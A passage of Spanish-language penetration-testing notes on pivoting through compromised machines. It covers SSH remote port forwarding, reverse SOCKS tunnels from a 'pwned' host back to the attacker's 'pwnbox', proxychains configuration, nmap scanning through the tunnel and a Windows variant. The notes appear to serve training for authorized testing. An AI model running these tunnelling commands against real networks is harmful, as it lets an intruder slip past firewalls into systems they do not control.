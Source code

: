 	```bash
	ssh -R 0.0.0.0:8888:localhost:8000 username@$pivot -vN
	```
- Desde `$target`
	```bash
	wget http://$pivot:8888/recurso
	```
##### Solo se permite tráfico saliente en la red atacada
Si la red a la que queremos acceder tiene un cortafuegos que no permite tráfico entrante, pero sí saliente. Supongamos que desde nuestra máquina `$pwnbox` queremos acceder al puerto 5432 de `$target` y tenemos una máquina comprometida, `$pwned` (notar que aquí en realidad no hace falta ningún pivote)
- Nuestra `$pwnbox` debe tener activado el servicio ssh
	```bash
	sudo systemctl start ssh
	```
- Desde `$pwned` hacemos que `$pwnbox` esté en escucha en el puerto 2345, redirigiendo todo el tráfico al puerto 5432 de `$target`
	```bash
	ssh -N -R 127.0.0.1:2345:10.4.153.215:5432 an0nio@$pwnbox
	```
- Desde `$target`: 
	```bash
	psql -h 127.0.0.1 -p 2345 -U postgres
	```
#### Remote dynamic Port Forwarding
 La que queremos acceder tiene un cortafuegos que no permite tráfico entrante, pero sí saliente. Supongamos que queremos ejecutar nmap en `$target` desde `$pwnbox`
- Debemos tener activado el servicio ssh en nuestra `$pwnbox`
	```bash
	service ssh start
	```
- Desde `$pwned` hacemos que `$pwnbox` cree un túnel proxy socks en el puerto 9998
	```
	ssh -N -R 9998 an0nio@192.168.45.216
	```
- En la configuración de `/etc/proxychains4.conf` debe haber lo siguiente:
	```bash
	socks5 127.0.0.1 9998
	```
- Desde `$pwnbox`
	```bash
	proxychains nmap -vvv -Pn -sT --top-ports=100 $target -oN ports_$target  
	```
		

### Windows
#### Solo cliente ssh
- Si no tenemos un servidor ssh, pero sí un cliente ssh, podemos utilizar de forma natural remote dynamic port forwarding 
- Comprobamos que tenemos ssh -> Desde CMD (no funciona en powershsell)
	```powershell
	where ssh
	```
- En nuestra pwnbox activamos el servidor ssh 
	```bash
	service ssh start
	```
- En la máquina comprometida escribimos
	```powershell
	ssh -N -R 9998 an0nio@192.168.45.216
	```
- Nos aseguramos que tenemos la siguiente información en `/etc/proxychains4.conf`